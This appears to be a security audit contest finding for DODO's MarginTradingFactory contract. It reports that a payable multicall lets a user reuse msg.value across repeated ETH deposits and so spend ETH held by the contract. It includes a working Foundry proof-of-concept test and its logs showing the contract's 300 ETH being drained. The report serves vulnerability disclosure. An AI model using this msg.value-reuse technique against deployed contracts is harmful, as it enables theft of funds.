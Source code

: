 jprod15

medium

# User can use ETH from marginTradingFactory.sol due to unsafe multicall

## Summary
User can use ETH from margintrading.sol due to unsafe multicall that allows the user to spend ETH that they have not authorized
## Vulnerability Detail
https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L74-L87

This is because the function multicall is payable. This function allows the user to call depositMarginTradingEth multiple times in the same call. Therefore, the user spends msg.value once, and then the rest of the calls use the msg.value that belongs to the contract

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L203-L211

run this in marginTradingFactory.t.sol 

          function testDepositMarginTrading_steal_ETH() public {//@audit-info
            openMarginTradingDAI(user1);
            address marginTradingAddress = marginTradingFactory.getCreateMarginTradingAddress(0, 2, user1);
            setLendingPoolToken(MockERC20(address(weth)), dai);

            bytes[] memory data = new bytes[](4);
            for(uint256 i=0;i<data.length;i++)
            {
            data[i]=abi.encodeWithSignature("depositMarginTradingETH(address,bool,uint8)",marginTradingAddress,true,uint8(2));
            }
            
            uint256 beforeBalance = aToken.balanceOf(marginTradingAddress);
            vm.deal(user1, 100 ether);
            vm.deal(address(marginTradingFactory), 300 ether);//@audit-info eth in the contract
            console.log("                     ");
            console.log("balance eth before user                :%d",user1.balance);
            console.log("balance eth before marginTradingFactory:%d",address(marginTradingFactory).balance);
            console.log("balance before aToken                  :%d",beforeBalance);
            

            vm.prank(user1);
            marginTradingFactory.multicall{value: 100 ether}(data);
            console.log("                     ");
            console.log("balance eth after user                :%d",user1.balance);
            console.log("balance eth atfer marginTradingFactory:%d",address(marginTradingFactory).balance);
            console.log("balance after aToken                  :%d",aToken.balanceOf(marginTradingAddress));
            
        }
the result 

        Running 1 test for test/marginTrading/MarginTradingFactory.t.sol:MarginTradingFactoryTest
        [PASS] testDepositMarginTrading_steal_ETH() (gas: 792186)
        Logs:
        0xddc7a7ea92ef3b1a4fccc0305bd776b79c9c767f,  depositToken balance:, 0
        0xddc7a7ea92ef3b1a4fccc0305bd776b79c9c767f,  borrowToken balance:, 0
        0xddc7a7ea92ef3b1a4fccc0305bd776b79c9c767f,  aToken balance:, 1684
        0xddc7a7ea92ef3b1a4fccc0305bd776b79c9c767f,  debtToken balance:, 1

        balance eth before user                :100000000000000000000
        balance eth before marginTradingFactory:300000000000000000000
        balance before aToken                  :1684158415841584158416

        balance eth after user                :0
        balance eth atfer marginTradingFactory:0
        balance after aToken                  :2084158415841584158416

        Test result: ok. 1 passed; 0 failed; finished in 539.74ms

## Impact
https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L225-L229

Only the owner should be able to use ETH from contract 
## Code Snippet

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L74-L87

https://github.com/sherlock-audit/2023-05-dodo/blob/main/dodo-margin-trading-contracts/contracts/marginTrading/MarginTradingFactory.sol#L203-L211
## Tool used

Manual Review

## Recommendation
multiplie msg.value for number of calls